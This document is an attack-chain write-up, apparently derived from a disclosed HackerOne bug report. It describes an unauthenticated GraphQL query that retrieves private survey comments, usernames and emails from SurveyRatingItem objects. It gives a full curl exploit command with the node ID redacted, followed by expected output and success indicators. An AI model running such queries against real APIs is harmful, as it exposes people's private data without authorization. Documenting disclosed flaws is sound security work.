

# Unauthenticated Information Disclosure of Private Comments via HackerOne GraphQL Endpoint

Multi-stage attack chain demonstrating a complete attack workflow.

The vulnerability allows unauthenticated attackers to query the HackerOne GraphQL endpoint and retrieve private comments from SurveyRatingItem objects using known node IDs. This exposes sensitive personal information shared between respondents and recipients, such as feedback in survey ratings. The attack requires no prior authentication and can be executed via a simple POST request, leading to disclosure of up to 136 private comments across users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- GraphQL API at https://hackerone.com/graphql
- No specific ports or services beyond HTTPS (443)

### Initial Access Requirements

- Public internet access to HackerOne domain
- Known node ID for a SurveyRatingItem (e.g., obtained from public reports or enumeration)
- No credentials or prior access needed

## Detailed Attack Procedures

### Step 1: Execute Unauthenticated GraphQL Query
procedure: [[procedures/Exploit-GraphQL-Information-Disclosure-in-SurveyRatingItem]]

**Objective**: Access and extract private comments from SurveyRatingItem objects without authentication, disclosing sensitive user data.

**Instructions**: Craft and send a GraphQL query targeting a specific node ID to fetch fields including private_comment. Use [[commands/curl-graphql-private-comment-access]] to perform the POST request:

```bash
curl -X POST https://hackerone.com/graphql -H "Content-Type: application/json" -d '{"query":"query { node(id: \"gid://hackerone/SurveyRatingItem/█████\") { ... on SurveyRatingItem{_id,pentester{_id},team{_id},key,private_comment,public_comment,rating,recipient{username,email},subject{... on Report{_id}},survey_rating{_id,team{_id},state,respondent{_id,username,email,pentests{nodes{_id}}}}}}}","variables":{}}'
```

Validate the response for the presence of private_comment data.

**Expected Output**: JSON response containing the node data, including "private_comment":"████" and other fields like key, rating, and respondent details.

**Success Indicators**:
- Response includes non-null private_comment field with sensitive content
- No authentication error; data retrieved successfully
- Confirmation of exposed fields like respondent username or email

## Attack Chain Summary

### Key Achievements

1. Successful unauthenticated access to private GraphQL fields
2. Disclosure of 136 private comments with potential PII
3. Demonstration of authorization bypass in API schema

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
